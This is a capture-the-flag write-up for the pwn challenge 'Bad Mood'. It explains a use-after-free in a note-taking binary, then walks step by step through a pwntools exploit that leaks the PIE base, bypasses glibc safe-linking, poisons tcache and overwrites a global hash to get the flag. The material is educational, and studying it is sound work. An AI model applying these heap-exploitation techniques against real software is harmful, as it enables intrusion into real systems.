



# Bad Mood

**Event:** New Year CTF 2026  
**Category:** pwn  
**Description:**  
> Vasily is in a bad mood today. He's letting go of old thoughts, tangling up new ones, and sometimes forgetting who he is. But somewhere in the depths of his memory, his name still lingers.  
> `nc ctf.mf.grsu.by 9073`

***

## 1. TL;DR

This challenge is a classic heap exploitation problem featuring:
- **Use-After-Free (UAF)** vulnerability in the note management system
- **tcache poisoning** to overwrite a global variable
- **Safe-linking bypass** (glibc ≥2.32) to redirect malloc to arbitrary memory
- **FNV-1a hash collision** by overwriting `adminhash` to match `hash("NOPE")`

The exploit path: leak PIE base via a global pointer → poison tcache to point at `adminhash` → overwrite it with the correct hash → trigger the admin check to get the flag.

**Flag:** `grodno{V4S1LL1Y_248YV437_K70_0N_3S7_P070mySh70_74SK4_SL0m4n4}`

***

## 2. Problem Analysis

### 2.1 Binary Protections

Running `checksec` on the binary shows all modern protections are enabled:

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'$ORIGIN'
```

This means:
- **PIE (Position Independent Executable)**: Code/data addresses are randomized, we need to leak the base address
- **Full RELRO**: GOT (Global Offset Table) is read-only, can't overwrite function pointers there
- **NX (No eXecute)**: Stack/heap aren't executable, so we can't inject shellcode
- **Stack Canary**: Stack buffer overflow protection

### 2.2 Program Functionality

The binary implements a simple note-taking application with a menu:

```
--- Василий и заметки ---
1. Alloc
2. Free
3. Edit
4. Read
5. Check admin
```

Let me explain what each function does:

#### **1. Alloc (allocate_note)**
- Asks for an index (0-7)
- Allocates a chunk of size `0x68` bytes using `malloc(0x68)`
- Reads up to `0x60` bytes of user data into the chunk
- Writes a pointer `DEFAULTTAG` at offset `+0x60` in the chunk
- Stores the chunk pointer in a global array `notes[index]`

#### **2. Free (free_note)**
- Asks for an index
- Calls `free(notes[index])`
- **BUG: Does NOT set `notes[index]` to NULL after freeing!**

#### **3. Edit (edit_note)**
- Asks for an index
- Reads up to `0x60` bytes into `notes[index]`
- Can operate on already-freed chunks (UAF write)

#### **4. Read (read_note)**
- Asks for an index
- Writes `0x68` bytes from `notes[index]` to stdout using `write(1, notes[index], 0x68)`
- Can operate on already-freed chunks (UAF read)
- **Important**: This outputs the full chunk including the last 8 bytes (the `DEFAULTTAG` pointer)

#### **5. Check admin (check_admin)**
- Computes `hash(admin_key)` and compares it with `adminhash`
- If they match, prints the flag from environment variable `FLAG_VAL` (or a default string)
- The hash function is **FNV-1a 64-bit**

### 2.3 Key Global Variables

From the decompiled code and symbol table:

```c
// At PIE offset 0x4010 (16 bytes)
char admin_key[16];

// At PIE offset 0x4020 (8 bytes)  
char *DEFAULTTAG;

// At PIE offset 0x4080 (64 bytes = 8 pointers)
void *notes[8];

// At PIE offset 0x40c0 (8 bytes)
uint64_t adminhash;
```

### 2.4 The Hash Check Logic

In `main()`, the program does:

```c
// Initialize admin_key = "VASILIY_SECRET"
admin_key = "VASILIY_SECRET";

// Compute and store the hash
adminhash = hash(admin_key);  // hash("VASILIY_SECRET") = 0x99055681af20492f

// Overwrite admin_key = "NOPE"
admin_key = "NOPE\0";
```

Later in `check_admin()`:

```c
if (hash(admin_key) == adminhash) {
    // admin_key is now "NOPE", so this checks:
    // hash("NOPE") == adminhash
    // We need adminhash = 0x50dcdcc6356078e1
    puts(getenv("FLAG_VAL"));
    exit(0);
}
```

**Strategy**: We need to overwrite the global variable `adminhash` from `0x99055681af20492f` (hash of "VASILIY_SECRET") to `0x50dcdcc6356078e1` (hash of "NOPE").

### 2.5 Vulnerability Analysis

The automated analysis in `AI-REPORT.json` detected:

1. **Use-After-Free (UAF)**: 
   - `free_note()` doesn't null out the pointer in `notes[]`
   - After freeing, we can still `edit_note()` and `read_note()` on the same index
   - This allows reading/writing freed chunks

2. **Information Leak**:
   - `read_note()` outputs the full `0x68` bytes including the `DEFAULTTAG` pointer at offset `+0x60`
   - `DEFAULTTAG` is a global pointer → points to a fixed offset in the PIE binary
   - Leaking it reveals the PIE base address

3. **Heap Exploitation**:
   - The binary uses glibc malloc with **tcache** (thread-local cache)
   - Chunks of size `0x68` go into tcache when freed
   - We can exploit tcache poisoning to make `malloc()` return arbitrary addresses

***

## 3. Initial Guesses

### 3.1 First Hypothesis: Format String Attack?

The AI report flagged multiple format string vulnerabilities because the binary uses `printf()`. However, looking at the actual code:

```c
printf("> ");  // Just prints a prompt, no user input
```

All `printf()` calls use hardcoded format strings. There's no format string vulnerability here - this was a **false positive** from static analysis.

### 3.2 Second Hypothesis: Direct GOT Overwrite?

With Full RELRO enabled, the GOT is read-only. We can't overwrite function pointers like we could in older CTF challenges. This path is blocked.

### 3.3 The Real Attack: Tcache Poisoning

The key insight is:
1. We have UAF read/write primitives
2. We can leak PIE base via the `DEFAULTTAG` pointer
3. We can use tcache poisoning to make `malloc()` return a pointer to `adminhash`
4. Then we can write the correct hash value directly

***

## 4. Exploitation Walkthrough

### 4.1 Understanding Tcache

Modern glibc (≥2.26) uses **tcache** (thread-local cache) for small allocations:

- Each thread has bins for chunk sizes (up to 1032 bytes)
- Each bin is a singly-linked list of freed chunks
- When you `free()` a chunk, it goes to the front of its tcache bin
- When you `malloc()`, it pops from the front of the bin
- **Important**: Tcache uses a `counts` array to track how many chunks are in each bin

The structure of a freed tcache chunk (size `0x68`):

```
+0x00: next pointer (safe-linked, XORed with chunk_addr >> 12)
+0x08: [unused]
+0x10: [unused]
...
```

### 4.2 Safe-Linking (glibc ≥2.32)

To prevent simple tcache poisoning, glibc introduced **safe-linking**:

```c
// When storing the next pointer:
stored_next = next ^ (chunk_address >> 12)

// When reading it:
next = stored_next ^ (chunk_address >> 12)
```

This means:
- If `next == NULL`, then `stored_next == (chunk_address >> 12)`
- We can leak this value to get the XOR key
- Then we can poison the `next` pointer to any target address

### 4.3 Step-by-Step Exploit

#### **Step 1: Leak PIE Base**

```python
# Allocate a note
alloc(r, 0, b"A"*8)

# Read it back (gets 0x68 bytes including DEFAULTTAG pointer at +0x60)
leak = read_(r, 0)
leak_tag_ptr = u64(leak[0x60:0x68])

# DEFAULTTAG points to a string in rodata at page 0x2000
# leak_tag_ptr & ~0xfff gives us the page address
pie = (leak_tag_ptr & ~0xfff) - 0x2000

# Calculate adminhash address
adminhash_addr = pie + 0x40c0
```



**Why this works**: The `DEFAULTTAG` pointer is stored at a fixed PIE offset (`0x4020`) and points to a string in the read-only data section (around `0x2000-0x2fff`). By leaking this pointer, we can calculate the PIE base.

#### **Step 2: Get Safe-Linking Key**

```python
# Allocate two chunks
alloc(r, 1, b"B"*8)
alloc(r, 2, b"C"*8)

# Free idx=1 (now it's the only chunk in this tcache bin)
free_(r, 1)

# Read the freed chunk's first 8 bytes
leak1 = read_(r, 1)
key = u64(leak1[0:8])

# When next==NULL, stored value is (chunk_addr >> 12)
# This is our XOR key for safe-linking
```



**Why this works**: When we free a chunk and it's the only one in the bin, its `next` pointer is `NULL`. The safe-linking formula gives us: `stored = NULL ^ (chunk >> 12) = chunk >> 12`. We can read this value via UAF.

#### **Step 3: Take Back the Chunk**

```python
# Allocate again to get idx=1's chunk back
alloc(r, 1, b"D"*8)
```

**Why we need this**: We want to free `idx=1` again later as the tcache head (so we can poison it), but we need to have another chunk in the bin first to make `counts >= 2`.

#### **Step 4: Set Up Tcache Count ≥ 2**

```python
# Free idx=2 first
free_(r, 2)

# Then free idx=1 (now tcache has 2 chunks, head is idx=1)
free_(r, 1)
```

**Why this matters**: When we poison `idx=1`'s `next` pointer, the tcache will have:
- `counts[size_0x68] = 2`
- `head → idx=1 → target (adminhash)`

When we call `alloc()` twice:
- First `alloc()` pops `idx=1`, decrements count to 1
- Second `alloc()` pops `target`, decrements count to 0

If we only had count=1, the second allocation would fail because the tcache would be empty!

#### **Step 5: Poison Tcache**

```python
# Edit idx=1 (UAF write) to change its next pointer
edit(r, 1, p64(adminhash_addr ^ key))
```



**What this does**: 
- Original: `idx=1->next` points to `idx=2`
- After poison: `idx=1->next` points to `adminhash_addr`
- The XOR with `key` is needed to satisfy safe-linking

Now the tcache bin looks like:
```
head → idx=1 → adminhash_addr
```

#### **Step 6: Get Arbitrary Write**

```python
# Pop idx=1 (returns the original chunk)
alloc(r, 3, b"E"*8)

# Pop adminhash_addr (returns a pointer to the global variable!)
want = 0x50dcdcc6356078e1  # hash("NOPE")
alloc(r, 4, p64(want))
```

**What happens**: 
- `alloc(r, 4, ...)` calls `malloc(0x68)` 
- Malloc pops from tcache and returns `adminhash_addr`
- The `read(0, adminhash_addr, 0x60)` in `alloc_note()` writes our data directly to `adminhash`!


#### **Step 7: Win**

```python
# Trigger the admin check
r.sendlineafter(b"> ", b"5")

# Now hash("NOPE") == adminhash, so we get the flag!
r.interactive()
```

## 5. What We Learned

### 5.1 Modern Heap Exploitation Techniques

1. **Tcache Poisoning**: Even with safe-linking, we can still redirect malloc by:
   - Leaking a chunk address to get the XOR key
   - Using UAF to overwrite the `next` pointer
   - Maintaining proper tcache `counts` (need ≥2 chunks for this exploit)

2. **Safe-Linking Bypass**: The key insight is that when a freed chunk has `next==NULL`, the stored value equals `chunk_addr >> 12`. This gives us the XOR key for free!

3. **PIE Leak via Global Pointers**: Even without format strings or GOT leaks, we can defeat PIE by:
   - Finding any global pointer that points to a fixed offset
   - Leaking it via UAF read or other primitives
   - Calculating the base using page alignment

### 5.2 Common Pitfalls (What Didn't Work)

1. **Format String False Positive**: Static analysis tools flagged `printf()` usage, but all format strings were hardcoded. Always verify potential vulnerabilities manually!

2. **GOT Overwrite**: With Full RELRO, this classic technique doesn't work anymore. Modern exploits need to target writable globals or heap metadata.

3. **Single-Chunk Tcache Poison**: My first attempt failed because I only freed one chunk. The tcache `counts` array prevented the second allocation from succeeding!

### 5.3 Key Debugging Tips

1. **Always check alignment**: When PIE base ends with `0x883` instead of `0x000`, something's wrong with your leak calculation.

2. **Understand tcache counts**: Use `gdb` with `vis_heap_chunks` to see:
   ```
   tcachebins: 0x2 chunks  # Need this to be ≥2!
   ```

3. **Test locally first**: Set up the same glibc version locally (use `pwninit` to patch the binary). This lets you debug with gdb before trying remotely.

### 5.4 Takeaways for Beginners

- **UAF is powerful**: Even "simple" bugs like forgetting to null a pointer can lead to full code execution
- **Modern mitigations are bypassable**: PIE, RELRO, and safe-linking all sound scary, but each has known bypass techniques
- **Read the code carefully**: The hash check in `main()` was the key - understanding that `admin_key` gets overwritten to "NOPE" was crucial
- **Automated tools are helpful but not perfect**: The AI-REPORT.json gave good hints about UAF and heap exploitation, but had false positives on format strings

**Final thought**: This challenge was a great introduction to modern heap exploitation. The UAF was straightforward to spot, but exploiting it required understanding tcache internals, safe-linking, and maintaining proper heap state. Perfect difficulty for learning!